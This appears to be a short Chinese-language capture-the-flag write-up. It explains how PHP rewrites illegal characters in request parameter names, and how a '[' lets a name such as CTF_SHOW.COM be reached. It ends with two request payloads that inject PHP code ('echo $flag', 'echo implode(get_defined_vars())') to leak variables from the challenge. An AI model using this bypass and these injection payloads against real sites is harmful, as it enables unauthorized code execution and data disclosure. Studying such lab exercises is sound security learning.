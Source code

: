 # 知识点
### php参数非法字符的过滤
在php中变量名只有数字字母下划线，被get或者post传入的变量名，如果含有空格、.、[则会被转化为_，所以按理来说我们构造不出CTF_SHOW.COM这个变量(因为含有.)，但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换
### implode
可以将一维数组转换为字符串<br />[https://www.php.net/manual/zh/function.implode.php](https://www.php.net/manual/zh/function.implode.php)
# 思路
```php
方法一 CTF_SHOW=1&CTF[SHOW.COM=qwe&fun=echo $flag
方法二 CTF_SHOW=1&CTF[SHOW.COM=qwe&fun=echo implode(get_defined_vars())
```
![image.png](./images/20231017_2349523998.png)
